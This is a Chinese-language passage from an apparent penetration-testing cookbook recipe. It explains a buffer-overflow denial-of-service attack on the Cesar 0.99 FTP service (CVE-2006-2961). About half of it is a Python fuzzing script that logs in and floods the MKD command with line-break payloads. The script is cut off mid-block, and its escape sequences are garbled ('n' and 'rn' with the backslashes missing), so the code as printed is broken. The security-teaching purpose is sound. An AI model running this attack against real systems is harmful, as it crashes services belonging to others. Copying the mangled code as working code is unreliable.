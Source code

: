 # 远程 FTP 服务缓冲区溢出 DoS

在适当的情况下，输入数据有可能逃逸出其指定的缓冲区，流入相邻的寄存器或内存段。这个过程会破坏执行流，并导致应用程序或系统崩溃。在某些情况下，缓冲区溢出漏洞还可以被利用来执行未经授权的代码。在本食谱中，我们将演示如何针对 Cesar 0.99 FTP 服务执行基于缓冲区溢出的拒绝服务攻击（DoS）。

# 准备工作

要执行远程模糊测试，您需要一台运行网络服务（通过 TCP 或 UDP）的系统。在提供的示例中，使用的是带有 FTP 服务的 Windows XP 系统来完成此任务。有关如何设置 Windows 系统的更多信息，请参考第一章中的 *安装 Windows 服务器* 食谱，*入门指南*。此外，本节还需要编写脚本并将其保存到文件系统中，您可以使用 Vim 或 GNU nano 等文本编辑器来完成此操作。有关编写脚本的更多信息，请参考第一章中的 *使用文本编辑器（Vim 和 GNU nano）* 食谱，*入门指南*。

# 操作步骤…

Cesar 0.99 FTP 服务存在一个公开披露的漏洞。该漏洞通过 **常见漏洞和暴露**（**CVE**）编号系统定义为 `CVE-2006-2961`。通过对该漏洞进行研究，明显可以发现通过向 `MKD` 函数发送经过身份验证后的换行符序列，可以触发基于堆栈的缓冲区溢出：

1.  为了避免在将`n`转义序列传递给 Python 脚本时遇到的困难，并确保它在提供的输入中被正确解析，我们应该修改在前面食谱中讨论过的脚本。然后，我们可以使用修改后的脚本利用现有的漏洞，具体操作如下：

```
        #!/usr/bin/python

        import socket
        import sys

        if len(sys.argv) != 5:
            print "Usage - ./ftp_fuzz.py [Target-IP]
             [Port Number] [Interval] [Maximum]"
            print "Example - ./ftp_fuzz.py 10.0.0.5 21 100 1000"
            print "Example will fuzz the defined FTP service
             with a series of line break "
            print "characters to include 100 'n's, 200 'n's,
             etc... up to the maximum of 1000"
            sys.exit()

        target = str(sys.argv[1])
        port = int(sys.argv[2])
        i = int(sys.argv[3])
        interval = int(sys.argv[3])
        max = int(sys.argv[4])
        user = raw_input(str("Enter ftp username: "))
        passwd = raw_input(str("Enter ftp password: "))
        command = raw_input(str("Enter FTP command to fuzz: "))

        while i <= max:
            try:
                payload = command + " " + ('n' * i)
                print "Sending " + str(i) + " line break
                 characters to target"
                s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                connect=s.connect((target,port))
                s.recv(1024)
                s.send('USER ' + user + 'rn')
                s.recv(1024)
                s.send('PASS ' + passwd + 'rn')
                s.recv(1024)
                s.send(payload + 'rn')
                s.send('QUITrn')
                s.recv(1024)
                s.close()
                i = i + interval
        except:
```